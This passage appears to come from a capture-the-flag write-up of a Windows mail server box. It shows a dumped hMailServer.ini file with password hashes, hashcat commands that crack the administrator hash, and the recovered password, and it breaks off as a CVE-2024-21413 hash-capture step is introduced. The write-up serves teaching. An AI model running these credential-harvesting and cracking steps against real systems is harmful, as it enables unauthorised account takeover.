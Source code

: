 ```shell
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

Nice! We were able to read the contents of the file hMailServer.ini and we also found the hash of the Administrator password it seems:

```shell
841bb5acfa6779ae432fd7a4e6600ba7
```

We can crack the hash using crackstation.net or using the following commands:

```shell
# Copy the hash into a text file and name it administrator_hash.txt
echo '841bb5acfa6779ae432fd7a4e6600ba7' > administrator_hash.txt

# Check the type of hash (We got many possibilities, but since it looks like MD5, lets suppose its MD5)
hashid administrator_hash.txt

# Use hashcat to crack it with -m 0 for MD5 and use rockyou.txt as wordlist
hashcat -m 0 administrator_hash.txt /usr/share/wordlists/rockyou.txt
```

We managed to succesfully crack the hash and get the following password:

```shell
homenetworkingadministrator
```

# Foothold

### CVE-2024-21413 to capture hash of maya using a SMB server
The remote Windows server is running a mail server and probably using a client to connect to it. We will suppose that its using the default client for Windows, which is called Windows Mail.
